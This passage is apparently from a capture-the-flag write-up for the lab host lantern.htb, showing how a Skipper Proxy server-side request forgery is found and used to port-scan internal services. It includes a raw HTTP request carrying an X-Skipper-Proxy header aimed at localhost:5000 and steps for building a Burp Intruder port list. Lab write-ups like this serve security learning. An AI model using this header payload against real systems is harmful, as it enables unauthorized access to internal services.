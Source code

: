 ## Skippy Proxy SSRF

The HTTP server header is saying that it defines Skipper Proxy. I don't remember seeing this header when I looked initially but I will grab a packet and check again.

```
HTTP/1.1 404 Not Found
Content-Length: 207
Content-Type: text/html; charset=utf-8
Date: Sat, 24 Aug 2024 02:00:50 GMT
Server: Skipper Proxy
Connection: close
```

Must have missed that the first time around. Skipper according to [https://www.exploit-db.com/exploits/51111](https://www.exploit-db.com/exploits/51111) is vulnerable to SSRF. I'll grab the webapp on port 3000 as my poc to verify I can access internal resources through localhost.

![skipper proxy header poc]({{ page.img }}_skipper_header_poc.png)

A couple avenues open up now that we can access internal resources. First I can theoretically read files from both web applications, and second I can scan localhost for ports and interact with any backend services I find. I test with a port that should not be open to determine the negative result I want to filter out.

![Skipper Proxy SSRF port 69]({{ page.img }}_burp_negative_result.png)


Now onto the proper scanning. To prep I copy [https://github.com/HeckerBirb/top-nmap-ports-csv](https://github.com/HeckerBirb/top-nmap-ports-csv), place it into a file, then sed that file to format it:

```bash
nano top_nmap_ports
cat top_nmap_ports | sed 's/,/\n/g' > top_ports.txt
```

Copy that result and paste it into intruder.

### Port 5000

![Skipper Proxy SSRF port scan]({{ page.img }}_burp_intruder_port_5000.png)

```
GET / HTTP/1.1
Host: lantern.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
X-Skipper-Proxy: http://localhost:5000
Connection: close
Upgrade-Insecure-Requests: 1
```
